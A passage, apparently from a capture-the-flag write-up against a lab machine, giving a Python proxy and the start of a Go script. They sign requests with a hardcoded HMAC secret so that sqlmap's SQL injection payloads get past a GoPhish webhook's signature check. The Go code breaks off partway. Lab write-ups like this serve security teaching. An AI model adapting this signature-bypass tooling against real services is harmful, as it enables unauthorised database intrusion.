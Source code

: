 ```
        body = self.rfile.read(content_len)
        # Clean the path from possible full URLs or malformed inputs
        clean_path = urlparse(self.path).path
        full_url = f"{TARGET_URL}{clean_path}"
        # Calculate HMAC-SHA256 signature
        signature = hmac.new(HMAC_KEY, body, hashlib.sha256).hexdigest()
        # Prepare headers for forwarding
        forward_headers = {key: self.headers[key] for key in self.headers if key.lower() != 'host'}
        forward_headers['Host'] = TARGET_HOST
        forward_headers['x-gophish-signature'] = f"sha256={signature}"
        # Forward the request to the actual server
        try:
            response = requests.post(
                full_url,
                headers=forward_headers,
                data=body,
                allow_redirects=False,
                verify=False
            )
        except Exception as e:
            self.send_error(502, f"Proxy forwarding failed: {str(e)}")
            return
        # Respond back to sqlmap
        self.send_response(response.status_code)
        for k, v in response.headers.items():
            if k.lower() != 'content-encoding':
                self.send_header(k, v)
        self.end_headers()
        self.wfile.write(response.content)
        # Debug log
        print(f"[+] Forwarded to: {full_url}")
        print(f"    Signature: sha256={signature}")
        print(f"    Payload: {body.decode(errors='ignore')[:200]}")
if __name__ == "__main__":
    print("
GoPhish SQLmap Proxy running on http://127.0.0.1:8000")
    server = HTTPServer(('0.0.0.0', 8000), GoPhishProxy)
    server.serve_forever()
```



Or use the go script here
```
package main

import (
    "bytes"
    "crypto/hmac"
    "crypto/sha256"
    "encoding/hex"
    "encoding/json"
    "fmt"
    "io"
    "log"
    "net/http"
)

const (
    secret    = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
    webhookURL = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"
)

type Payload struct {
```
